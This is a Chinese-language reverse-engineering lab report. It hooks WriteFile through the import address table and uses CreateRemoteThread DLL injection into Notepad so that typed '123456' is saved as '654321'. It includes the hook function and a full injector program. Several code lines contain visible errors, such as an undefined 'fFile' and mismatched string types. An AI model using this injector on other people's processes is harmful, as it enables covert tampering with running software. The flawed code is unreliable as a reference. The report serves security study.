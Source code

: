 # DLL注入实验报告

### 实验目的

+ 利用dll注入、hook篡改记事本行为，使得在记事本中输入“123456”，实际写入的内容是“654321”

### 实验原理

+ API hook：通过hook“接触”到需要修改的API函数入口点，改变它的地址指向新的自定义的函数，以此改变一个系统API的原有功能。、常见的API Hook包括2种， 一种是基于PE文件的导入表(IAT), 还有一种是修改前5个字节直接JMP的inline Hook
+ IAT hook：原理是PE文件里有个导入表， 代表该模块调用了哪些外部API，模块被加载到内存后， PE加载器会修改该表，地址改成外部API重定位后的真实地址， 我们只要直接把里面的地址改成我们新函数的地址， 就可以完成对相应API的Hook
+ notepad在写入文件时使用的是kernelbase模块的writefile函数，所以在进行IAT hook时，只需要将writefile的地址改为新写的函数地址
+ `injectAllTheThings`仓库中总结了七种DLL注入技术，其中CreateRemoteThread()技术的步骤主要有以下几步：
  1. 使用OpenProcess()函数打开目标进程
  2. 通过调用GetProAddress()函数找到LoadLibrary()函数的地址
  3. 通过调用VirtualAllocEx()函数在目标/远程进程地址空间中为DLL文件路径开辟内存空间
  4. 调用WriteProcessMemory()函数在之前所分配的内存空间中写入DLL文件路径
  5. 调用CreateRemoteThread()函数创建一个新的线程，新线程以DLL文件路径名称作为参数来调用LoadLibrary()函数

### 实验过程

#### Hook

+ 首先运行一个简单的IAT hook[例子](https://github.com/tinysec/iathook)，在本地vs2019新建项目hook，将示例仓库内的README.md保存为main.c函数，将IATHook.c保存在项目内，编译运行成功

  ![](image/hook_exam.png)

+ 示例仓库中使用的函数是MessageBoxA，其Hook方式是编写一个Fake_MessageBox改变地址，因此我们仿照其方法编写Fake_WriteFile函数

  ```
  int __stdcall Fake_WriteFile(
  	HANDLE       hFile,
  	LPCVOID      lpBuffer,
  	DWORD        nNumberOfBytesToWrite,
  	LPDWORD      lpNumberOfBytesWritten,
  	LPOVERLAPPED lpOverlapped
  	)
  {
  	
  	LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
  	char content[] = "654321";  //篡改的内容 
  	DWORD dwWrite;
  	return fnOrigin(fFile, &content, strlen(content), &dwWrite, lpOverlapped);
  }
  
  ```

  WriteFile函数所在模块为kernel32.dll，因此需要修改IATHook函数：

  ```
  IATHook(
  			GetModuleHandle(NULL),
  			"kernel32.dll",
  			"WriteFile",
  			Fake_WriteFile,
  			&g_hHook_WriteFile
  		);
  ```

  修改后的main.c文件为

+ 检测Hook是否成功

  在主函数中添加以下内容以检测Hook是否成功，

  ```
  HANDLE hFILE = CreateFile("C:\\Users\\LM\\Desktop\\逆向工程\\test.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);//创建测试txt文件
  
  char buff[256] = "123456";
  
  DWORD dwWrite;
  
  WriteFile(hFILE, &buff, strlen(buff), &dwWrite, NULL); //在记事本中输入123456，若Hook攻击成功，则实际输入的内容是654321
  
  UnIATHook(g_hHook_WriteFile);
  
  CloseHandle(hFILE);
  ```

  

  调试，在运行到WriteFile函数时会发现跳转到了我们自己写的Fake_WriteFile函数内，并在记事本内写入篡改的内容，实现了Hook攻击

  ![](image/Hook_test.png)

#### DLL注入

+ 将上一步建立的项目生成DLL动态库

  + 修改项目属性的部分内容![](image/property.png)

    ![](image/def.png)

  + 生成dll动态库

    ![](image/dll.png)

+ 新建DLL注入项目inject，这里我使用CreateRemoteThread()的注入技术，编写代码inject.c,向指定进程中注入DLL

  ```
  #pragma warning(disable:4996)
  #include <windows.h>
  #include<stdio.h>
  #include <tchar.h>
  
  BOOL InjectDll(DWORD dwPID, LPCTSTR szDllPath) {
  
  	HANDLE hProcess = NULL;
  
  	HANDLE hThread = NULL;
  
  	HMODULE hMod = NULL;
  
  	LPVOID pRemoteBuf = NULL;  // 存储在目标进程申请的内存地址
  
  	DWORD dwBufSize = (DWORD)(_tcslen(szDllPath) + 1) * sizeof(TCHAR);  // 存储DLL文件路径所需的内存空间大小
  
  	LPTHREAD_START_ROUTINE pThreadProc;
  
  
  
  	if (!(hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID))) {
  
  		printf(L"OpenProcess(%d) failed!!! [%d]\n", dwPID, GetLastError());
  
  		return FALSE;
  
  	}
  
  	pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwBufSize, MEM_COMMIT, PAGE_READWRITE);  // 在目标进程空间中申请内存
  	WriteProcessMemory(hProcess, pRemoteBuf, (LPVOID)szDllPath, dwBufSize, NULL);  // 向在目标进程申请的内存空间中写入DLL文件的路径
  	hMod = GetModuleHandle(L"kernel32.dll");
  	pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMod, "LoadLibraryW");  // 获得LoadLibrary()函数的地址
  	hThread = CreateRemoteThread(hProcess, NULL, 0, pThreadProc, pRemoteBuf, 0, NULL);
  	WaitForSingleObject(hThread, INFINITE);
  	CloseHandle(hThread);
  	CloseHandle(hProcess);
  	return TRUE;
  
  }
  
  
  int main() {
  	char szDllPath[] = "hook.dll";
  	printf("请输入进程号:");
  	DWORD dwPID;
  	scanf("%u", &dwPID);
  	if (InjectDll((DWORD)_tstol(dwPID), szDllPath))
  		printf("InjectDll(\"%s\") success\n", szDllPath);
  	else
  		printf(L"InjectDll(\"%s\") failed\n", szDllPath);
  	return 0;
  }
  
  ```

+ 使用notepad（32位）打开一个txt文件，查看其进程号，然后运行注入项目，输入PID，DLL注入成功

  ![](image/Pid.png)

  ![](image/inject.png)

+ 在txt中写入123456，再次打开会发现其内容变为了654321

  ![](image/result.png)

  

  

### 实验参考

+ [iathook](https://github.com/tinysec/iathook)

+ [HOOK技术的一些简单总结 ](https://www.cnblogs.com/weiym/p/3396274.html)

+ [多种DLL注入技术原理介绍](https://blog.csdn.net/fuhanghang/article/details/83795769)

+ [fdiskyou/injectAllTheThings: Seven different DLL injection techniques in one single project](https://github.com/fdiskyou/injectAllTheThings)

  
